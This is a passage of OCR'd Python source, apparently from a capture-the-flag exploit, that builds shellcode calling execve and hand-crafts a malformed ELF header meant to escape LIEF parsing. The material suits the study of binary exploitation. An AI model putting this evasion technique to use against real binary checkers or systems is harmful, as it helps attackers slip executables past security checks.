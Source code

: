 ```python
    # receive the flag
    r.interactive()


def build_elf():
    context.arch = 'amd64'
    shellcode = asm(
        # copy the filename to the target address
        shellcraft.strcpy(addr, addr + 0x38 * 4)
        # call execve(filename)
        + shellcraft.execve(addr, 0, 0)
    )

    # elf header

    # elf magic
    elf = '\x7fELF'
    # elf class: 64-bit
    elf += p8(2)
    # endianness: little endian
    elf += p8(1)
    # elf version, usually set to 1
    elf += p8(1)
    # abi: linux abi
    elf += p8(3)
    # unused
    elf += '\0' * 8
    # binary type: executable
    elf += p16(2)
    # target architecture: x86-64
    elf += p16(0x3e)
    # elf version, again 1
    elf += p32(1)
    # entry point: after the headers we place the executable name and after that the shellcode
    elf += p64(addr + 0x38 * 4 + len(exe) + 1)
    # offset of programm header table (0, so LIEF doesn't parse it)
    elf += p64(0)
    # offset of section header table
    elf += p64(0)
    # some flags - unused
    elf += p32(0)
    # size of elf header
    elf += p16(0x40)
    # size of program header table entry
    elf += p16(0x38)
    # number of entries in program header table:
    #   the first two entries will overlap with the elf header, so we could use 3 here.
    #   However, this field coincides with the type of the second segment and 3 means PT_INTERP,
    #       which is interpreted by the kernel
    #   Thus we use 4 (PT_NOTE), which is ignored by the kernel and add additional padding at the end
    elf += p16(4)
    # size of section header table entry
    elf += p16(0)
    # number of entries in section header table
    elf += p16(0)
    # index of section header table entry containing section names
    elf += p16(0)

    # padding to 4th program header table entry
    elf += '\0' * (0x30 + 0x38)

    # program header table entry: PT_LOAD segment
```
